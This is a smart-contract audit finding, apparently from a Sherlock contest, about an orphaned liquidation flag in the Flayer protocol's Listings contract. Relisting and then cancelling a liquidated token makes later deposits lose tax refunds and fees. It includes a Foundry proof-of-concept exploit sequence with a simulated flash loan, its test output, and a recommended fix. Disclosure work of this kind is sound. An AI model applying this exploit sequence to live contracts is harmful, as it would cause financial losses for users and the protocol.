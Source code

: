 Lone Coconut Cat

Medium

# Relisting Then Cancelling A Liquidation Auction Results In Losses On Subsequent Deposits

## Summary

Relisting a token undergoing dutch auction risks erroneously persisting an orphaned `isLiquidation` state flags on the token, resulting in loss of due harberger taxes and refunds when the token is relisted.

## Vulnerability Detail

In the following sequence, we protect, liquidate, relist and finally cancel a listing for an underlying token.

Once the sequence is finished, all value is conserved and the underlying token is back in the hands of the original owner - however we have managed to erroneously persist an `isLiquidation` flag against the underlying token, even though it is no longer undergoing liquidation.

### ProtectedListings.t.sol

First, add the following test sequence to `ProtectedListings.t.sol`:

```solidity
function testSherlock_CreateOrphanedFlag() external returns (uint256[] memory tokenIds) {

    // 0. Assume a flashloan address:
    address flashloan = address(0xf1a510a9);
    uint256 numberOfFlashloanTokens = 10;
    vm.startPrank(flashloan);
    {
        tokenIds = new uint256[](numberOfFlashloanTokens);
        for (uint256 i = 0; i < numberOfFlashloanTokens; i++) erc721a.mint(flashloan, tokenIds[i] = 10_000 + i);
        erc721a.setApprovalForAll(address(locker), true);
        locker.deposit(address(erc721a), tokenIds);
    }
    vm.stopPrank();

    assertEq(locker.collectionToken(address(erc721a)).balanceOf(flashloan), 10000000000000000000) /* Flashloan Initial Balance */;

    // 1. `deadbeef` mints and protects their token:
    address deadbeef = address(0xdeadbeef);
    uint256 deadbeefTokenId = 100;
    vm.startPrank(deadbeef);
        erc721a.setApprovalForAll(address(protectedListings), true);
        erc721a.mint(deadbeef, deadbeefTokenId);
        tokenIds = new uint256[](1);
        tokenIds[0] = deadbeefTokenId;
        IProtectedListings.ProtectedListing memory listing = IProtectedListings.ProtectedListing({
            owner: payable(deadbeef),
            tokenTaken: 0.95 ether,
            checkpoint: 0
        });
        _createProtectedListing({
            _listing: IProtectedListings.CreateListing({
                collection: address(erc721a),
                tokenIds: tokenIds,
                listing: listing
            })
        });
    vm.stopPrank();
    assertEq(locker.collectionToken(address(erc721a)).balanceOf(deadbeef), 950000000000000000) /* Deadbeef Balance After Deposit */;

    // 2. Block is mined:
    vm.roll(block.number + 1);
    vm.warp(block.timestamp + 2);

    // 3. Asset is now unhealthy.
    assert(protectedListings.getProtectedListingHealth(address(erc721a), deadbeefTokenId) < 0) /* unhealthy */;

    // 4. Start a liquidation:
    vm.startPrank(deadbeef);
        protectedListings.liquidateProtectedListing(address(erc721a), deadbeefTokenId);
    vm.stopPrank();
    assertEq(locker.collectionToken(address(erc721a)).balanceOf(deadbeef), 1000000000000000000) /* Deadbeef Liquidates Own Listing */;

    // 5. `deadbeefOtherAccount` flash loans the required capital:
    address deadbeefOtherAccount = address(0xdeadbeef + 1);
    uint256 flashLoanAmount = 3000000000000000000 + 90000000000000000;
    vm.startPrank(flashloan);
        locker.collectionToken(address(erc721a)).transfer(deadbeefOtherAccount, flashLoanAmount);
    vm.stopPrank();

    assertEq(locker.collectionToken(address(erc721a)).balanceOf(flashloan), 6910000000000000000) /* Flash Loan Balance Reduced */;

    // 6. Relist, masquerading as a different account:
    vm.startPrank(deadbeefOtherAccount);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint256).max) /* Max Approve Listings */;

        tokenIds = new uint256[](1);
        tokenIds[0] = deadbeefTokenId;
        listings.relist(
            IListings.CreateListing({
                collection: address(erc721a),
                tokenIds: tokenIds,
                listing: IListings.Listing({
                    owner: payable(deadbeef),
                    created: uint40(block.timestamp),
                    duration: 7 days /* convert back into a liquid listing */,
                    floorMultiple: 400
                })
            }),
            false
        );
    vm.stopPrank();

    // 7. Now the listing is no longer in dutch auction, cancel it:
    vm.startPrank(deadbeef);
        locker.collectionToken(address(erc721a)).approve(address(listings), type(uint256).max);
        listings.cancelListings(address(erc721a), tokenIds, false);

        // Repay the flash loan for deadbeef:
        locker.collectionToken(address(erc721a)).transfer(flashloan, flashLoanAmount);

        // Assert that value has been conserved (nothing has been lost):
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(deadbeef), 0);
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(deadbeefOtherAccount), 0);
        assertEq(locker.collectionToken(address(erc721a)).balanceOf(flashloan), numberOfFlashloanTokens * 1 ether);

        // Deadbeef is back in possession of the token:
        assertEq(erc721a.ownerOf(deadbeefTokenId), deadbeef);

    vm.stopPrank();

}
```

Then add the following `console.log`s to `Listings.sol` to the end of [`cancelListings`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L414C14-L414C28):

```diff
// Create our checkpoint as utilisation rates will change
protectedListings.createCheckpoint(_collection); /// @custom:hunter now we can call this arbitrarily since tehre are no throws
+
+ for (uint256 i = 0; i < _tokenIds.length; i++) {
+    console.log("After cancellation, is still a liquidation?", _isLiquidation[_collection][_tokenIds[i]]);
+ }
+
emit ListingsCancelled(_collection, _tokenIds);
```

And finally run using:

```shell
forge test --match-test "testSherlock_CreateOrphanedFlag" -vv
```

```shell
Ran 1 test for test/ProtectedListings.t.sol:ProtectedListingsTest
[PASS] testSherlock_CreateOrphanedFlag() (gas: 2248654)
Logs:
  After cancellation, is still a liquidation? true

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 8.49ms (2.00ms CPU time)
```

This confirms that it is possible to persist an `_isLiquidation` flag against a token which is no longer undergoing liquidation.

## Impact

An orphaned `_isLiquidation` flag persisted against a token can result in losses for a users and the protocol if it were to be deposited back into the system.

This is because refunds for harberger taxes are only paid for the case where a token is specifically not marked as `_isLiquidation`:

```solidity
// Check if there is collateral on the listing, as this we bypass fees and refunds
if (!_isLiquidation[_collection][_tokenId]) { /// @audit only pay refunds for tokens which aren't marked as liquidations
    // Find the amount of prepaid tax from current timestamp to prepaid timestamp
    // and refund unused gas to the user.
    (uint fee, uint refund) = _resolveListingTax(_listings[_collection][_tokenId], _collection, false);
    emit ListingFeeCaptured(_collection, _tokenId, fee);

    assembly {
        tstore(FILL_FEE, add(tload(FILL_FEE), fee))
        tstore(FILL_REFUND, add(tload(FILL_REFUND), refund))
    }
} else {
    delete _isLiquidation[_collection][_tokenId];
}
```

```solidity
// We can process a tax refund for the existing listing if it isn't a liquidation
if (!_isLiquidation[_collection][_tokenId]) {
    (uint _fees,) = _resolveListingTax(oldListing, _collection, true); /// @audit only realize refunds and fees if not a liquidation
    if (_fees != 0) {
        emit ListingFeeCaptured(_collection, _tokenId, _fees);
    }
}
```

This materializes as losses for both the user and the protocol.

## Code Snippet

## Tool used

[**Shaheen Vision**](https://x.com/0x_Shaheen/status/1722664258142650806)

## Recommendation

In our proof of concept, we break the protocol invariant that a [dutch auction cannot be modified](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L311C13-L312C98) by first converting it back into a liquid listing via a call to [`relist`](https://github.com/sherlock-audit/2024-08-flayer/blob/0ec252cf9ef0f3470191dcf8318f6835f5ef688c/flayer/src/contracts/Listings.sol#L625C14-L625C20).

Since dutch auctions should not be modifiable, we recommend **rejecting attempts to relist them**, as this is a form of modification.

In addition, ensure that the `_isLiquidation` flag is cleared when cancelling a listing.
